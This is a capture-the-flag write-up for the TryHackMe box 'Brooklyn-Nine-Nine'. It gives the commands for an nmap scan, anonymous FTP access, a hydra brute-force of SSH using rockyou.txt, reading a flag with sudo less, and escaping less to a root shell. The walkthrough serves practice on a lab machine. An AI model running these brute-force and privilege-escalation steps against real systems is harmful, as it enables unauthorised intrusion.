

# 'Brooklyn-Nine-Nine' box writeup

## Brooklyn-Nine-Nine is a CTF box written by Fsociety2006 and available on the [TryHackMe](https://tryhackme.com/) platform

## Read about [Less Command](https://linuxize.com/post/less-command-in-linux/) and [Privilege Escalation using find, vim, less or bash](https://pentestlab.blog/category/privilege-escalation/)


## Foothold

+ **Let's deploy our machine and start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.244.52``

+ **We can clearly see 3 ports open, a ftp, ssh and a http, all configured on default ports**


**From the nmap report, the ftp anonymous login seems to be possible, so let's try it.**

``ftp 10.10.244.52``


**We successfully connected and we can see a** `note_to_jake.txt` **file inside the ftp server.**
**We can get that file and read it**

``get note_to_jake.txt``


+ **Looks that Jake need to change his password.**
**Because jake is using a very weak password, maybe we can brute-force his login to some service.**
**Let's use hydra to brute-force the ssh service - I'm using the `rockyou.txt` wordlist**

```console
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.244.52 -t 4 ssh
```



## User escalation

+ **So here we got some ssh credentials.**
**Let's connect on the ssh service and run a** ``sudo -l`` **command on the jake user**


**It looks like jake can run the less command with su privilege.**
**Less is a command which can display content of a file and we can navigate both forward and backward through the file.**
**Let's try to read the user flag.**

``sudo less /home/holt/user.txt``

[6](images/user_flag_1.jpg)

## Root escalation

+ **And here it is our first flag.**
**We can also use less to get a privesc and get root access.**
**Let's read a file with less**

``less /etc/passwd``

**Then generate a shell for the root user.**

``!/bin/sh``


